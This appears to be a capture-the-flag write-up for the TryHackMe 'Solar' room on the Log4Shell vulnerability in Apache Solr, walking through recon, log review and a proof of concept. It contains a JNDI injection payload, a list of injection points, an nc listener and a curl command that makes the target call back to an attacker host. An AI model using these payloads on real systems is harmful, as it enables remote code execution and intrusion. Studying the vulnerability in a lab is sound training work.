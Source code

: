 # Room
https://tryhackme.com/room/solar

# Task 1 - CVE-2021-44228 Intro
* CVE-2021-44228 impacts the Java logging package log4j and has a severity score of 10.0
* The attack offers trivial Remote Code Execution and has named Log4Shell
* Log4j is used by millions of applications around the world
* Resources
    * https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
    * https://log4shell.huntress.com/
    * https://www.youtube.com/watch?v=7qoPDq41xhQ

# Task 2 - Recon
* Scan the vulnerable machine
    ```
    nmap -v -A -T4 10.10.190.180
    ```

# Task 3 - Discovery
* The example machine is running Apache Solr 8.11.0 that includes a vulnerable version of log4j
* A connection to the machine in a web browser on port 8983 allows you to explore Solar
* Connect to the machine on port 8983 and answer the challenge questions
    * By default, the Solr log dir is /var/solr/logs
    * Open the attached Solr logs and review them, an interesting INFO entry is below
        ```
        2021-12-13 03:47:56.844 INFO  (qtp1083962448-14) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
        ```
    * /admin/cores is a URL that may be exploitable with the data entrypoint of params

# Task 4 - Proof of Concept
* Setting up the poc requires you to prefix the URL above with /solr, so: /solr/admin/cores
* Log4j adds logic to logs to enrich data, this logic may contain actions that could be executed
* A few examples are:
    ```
    ${$sys:os.name}
    ${ENV:PATH}
    ```
* The payload to abuse the log4j vulnerability is
    ```
    ${jndi:ldap://ATTACKERCONTROLLEDHOST}
    ```
* JNDI - Java Naming and Directory Interface
* The target of the attack will reach out to an LDAP endpoint controlled by an attacker
* You can insert this payload anywhere that data is logged by the application, for example:
    * Input boxes, user and password login forms, any data entry point in an application
    * HTTP headers like User-Agent and X-Forwared-For
    * Any form that has user supplied data
* JNDI Resource
    * https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
* poc in action
    * start a listener
    ```
    nc -nvlp 9999
    ```
    * curl the vulnerable machine with a call back to your listener on the attack box
    ```
    curl 'http://10.10.190.180:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.252.70:9999\}'
    ```
    * verify connection
    ```
    Listening on [0.0.0.0] (family 0, port 9999)
    Connection from 10.10.190.180 54972 received!
    0
    `\ufffd
    ```